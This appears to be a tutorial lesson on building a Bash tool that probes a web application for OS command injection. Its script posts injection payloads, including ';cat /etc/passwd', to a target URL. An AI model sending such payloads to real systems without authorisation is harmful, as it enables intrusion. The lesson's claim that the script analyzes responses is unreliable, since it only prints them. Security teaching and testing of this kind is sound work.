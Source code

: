 ### Lesson 23: Creating OS Command Injection Detection Tools with Bash

OS Command Injection vulnerabilities can lead to arbitrary command execution on the underlying operating system, potentially resulting in unauthorized access or system compromise. In this lesson, we'll develop a simple OS Command Injection detection tool using Bash scripting:

#### Use Case: OS Command Injection Detection Tool

Let's create a Bash script that scans a web application for potential OS Command Injection vulnerabilities by injecting malicious command payloads and analyzing the responses.

**Bash Script:**
```bash
#!/bin/bash
# This is a comment

# Function to perform OS Command Injection detection
detect_os_command_injection() {
    echo "Detecting OS Command Injection vulnerabilities..."
    # Define OS Command Injection payloads
    payloads=(";ls" ";cat /etc/passwd")

    # Iterate over payloads and inject them into vulnerable parameters
    for payload in "${payloads[@]}"; do
        echo "Testing payload: $payload"
        curl -s -d "param=$payload" -X POST "$1"
    done
}

# Main function
main() {
    echo "OS Command Injection Detection Tool"
    echo "----------------------------------"

    # Validate input
    if [ $# -ne 1 ]; then
        echo "Usage: $0 <target_url>"
        exit 1
    fi

    # Perform OS Command Injection detection
    detect_os_command_injection "$1"
}

# Call main function with target URL as argument
main "$@"
```

**Explanation:**
- The script defines a function `detect_os_command_injection` to perform OS Command Injection detection.
- It defines a list of OS Command Injection payloads representing malicious command injections.
- The `main` function serves as the entry point, validating input and invoking the OS Command Injection detection function.
- When executed with a target URL as an argument, the script injects OS Command Injection payloads into vulnerable parameters and analyzes the responses for potential vulnerabilities.
